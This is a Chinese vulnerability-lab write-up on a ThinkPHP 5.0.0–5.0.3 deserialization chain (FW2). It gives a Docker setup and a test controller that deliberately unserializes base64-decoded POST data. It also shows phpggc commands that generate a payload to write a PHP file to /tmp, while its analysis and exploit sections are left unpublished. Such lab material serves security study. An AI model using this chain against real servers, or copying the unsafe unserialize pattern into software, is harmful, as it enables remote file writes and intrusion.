


## ThinkPHP 反序列化链 FW2

### 漏洞环境

执行如下命令启动一个 `thinkphp 5.0.3` 的环境：

```
docker-compose up -d
```

访问 http://x.x.x.x/ ，看到 `hello world` 既搭建成功

测试代码

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        if(isset($_POST['a'])){
            return unserialize(base64_decode($_POST['a']));
        }
        else{
            return 'hello world';
        }
    }
}
```

### 漏洞影响

thinkphp 5.0.0 - 5.0.3

### 漏洞分析

暂未开放

### 漏洞复现

下载 `phpggc` 并执行如下操作

```
echo "<?php phpinfo();?>" > info.php
./phpggc ThinkPHP/FW2 /tmp/1.php ./info.php -b
```

这样可以生成一段 `base64` 字符串，然后进行如下操作



如上执行，可以写入 `/tmp` 文件夹，我们可以进入 `docker` 查看



成功写入

### 漏洞 EXP

暂未开放


